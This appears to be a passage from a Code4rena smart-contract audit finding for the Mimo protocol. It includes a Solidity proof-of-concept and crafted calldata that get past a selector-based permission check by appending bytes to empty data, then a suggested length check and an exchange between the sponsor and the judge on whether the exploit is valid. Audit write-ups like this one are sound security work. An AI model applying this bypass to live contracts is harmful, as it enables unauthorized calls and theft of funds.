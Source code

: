       function owner() external view returns (address);

      function minGasReserve() external view returns (uint256);

      function execute(address target, bytes calldata data) external payable returns (bytes memory response);

      function setPermission(
        address envoy,
        address target,
        bytes4 selector,
        bool permission
      ) external;

      function transferOwnership(address newOwner) external;

      function multicall(address[] calldata targets, bytes[] calldata data) external returns (bytes[] memory);
    }

    contract PoC {
        bytes4 public signatureWithPermision = bytes4(0xffffffff);

        // Call this function with calldata that can be prepared in `getAttackerCalldata`
        function execute(address target, bytes calldata data) external {
            bytes4 selector;
            assembly {
                selector := calldataload(data.offset)
            }

            require(selector == signatureWithPermision);

            require(data.length == 0);
        }

        // Function that prepare attacker calldata
        function getAttackerCalldata() public view returns(bytes memory)  {
            bytes memory usualCalldata = abi.encodeWithSelector(IMIMOProxy.execute.selector, msg.sender, new bytes(0));
            return abi.encodePacked(usualCalldata, bytes32(signatureWithPermision));
        }
    }

### Recommended Mitigation Steps

Add `require(data.length >= 4);`.

**[RayXpub (Mimo) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1210479234):**
 > We were not able to recreate the provided POC. The explanation is also incomplete - we don't see how an attacker could bypass the permissions check through providing extra calldata in a signature. Please provide more details, or a working POC, on how the extra data can bypass the permissions check.

**[gzeoneth (judge) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1221562576):**
 > This POC looks valid to me.
> 
> Basically what the warden mean is if you construct the calldata like execute(some_addr, "") + 0xffffff
> ```
> 0x1cff79cd0000000000000000000000005b38da6a701c568545dcfcb03fcb875f56beddc400000000000000000000000000000000000000000000000000000000000000400000000000000000000000000000000000000000000000000000000000000000^ffffffff
> ```
> `data.offset` would be at ^<br>
> and `calldataload(data.offset)` would read 0xffffff
> 
